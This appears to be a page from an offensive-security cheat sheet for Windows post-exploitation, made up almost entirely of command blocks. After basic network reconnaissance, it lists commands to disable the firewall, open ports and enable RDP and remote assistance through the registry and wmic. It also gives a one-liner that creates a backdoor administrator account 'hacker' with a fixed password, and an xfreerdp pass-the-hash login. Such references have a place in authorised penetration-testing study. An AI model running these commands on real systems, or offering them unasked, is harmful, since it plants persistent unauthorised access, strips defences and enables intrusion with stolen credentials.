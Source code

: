 ## Network

### Interfaces, Routes, Ports, Hosts and DNSCache

```bash
ipconfig /all #Info about interfaces
route print #Print available routes
arp -a #Address Resolution Protocol (`ARP`) cache
netstat -ano #Opened ports?
nslookup ACADEMY-ICL-DC # check the dns 

type C:\WINDOWS\System32\drivers\etc\hosts
ipconfig /displaydns | findstr "Record" | findstr "Name Host"
```

### Firewall

```bash
netsh firewall show state # FW info, open ports
netsh advfirewall firewall show rule name=all
netsh firewall show config # FW info
Netsh Advfirewall show allprofiles

NetSh Advfirewall set allprofiles state off  #Turn Off
NetSh Advfirewall set allprofiles state on  #Trun On
netsh firewall set opmode disable #Turn Off

#How to open ports
netsh advfirewall firewall add rule name="NetBIOS UDP Port 138" dir=out action=allow protocol=UDP localport=138
netsh advfirewall firewall add rule name="NetBIOS TCP Port 139" dir=in action=allow protocol=TCP localport=139
netsh firewall add portopening TCP 3389 "Remote Desktop" 

#Enable Remote Desktop
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh firewall add portopening TCP 3389 "Remote Desktop"
::netsh firewall set service remotedesktop enable #I found that this line is not needed
::sc config TermService start= auto #I found that this line is not needed
::net start Termservice #I found that this line is not needed

#Enable Remote Desktop with wmic
wmic rdtoggle where AllowTSConnections="0" call SetAllowTSConnections "1"
##or
wmic /node:remotehost path Win32_TerminalServiceSetting where AllowTSConnections="0" call SetAllowTSConnections "1"

#Enable Remote assistance:
reg add “HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server” /v fAllowToGetHelp /t REG_DWORD /d 1 /f
netsh firewall set service remoteadmin enable

#Ninja combo (New Admin User, RDP + Rassistance + Firewall allow)
net user hacker Hacker123! /add & net localgroup administrators hacker /add & net localgroup "Remote Desktop Users" hacker /add & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f & netsh firewall add portopening TCP 3389 "Remote Desktop" & netsh firewall set service remoteadmin enable

::Connect to RDP (using hash or password)
xfreerdp /u:alice /d:WORKGROUP /pth:b74242f37e47371aff835a6ebcac4ffe /v:10.11.1.49
xfreerdp /u:hacker /d:WORKGROUP /p:Hacker123! /v:10.11.1.49
```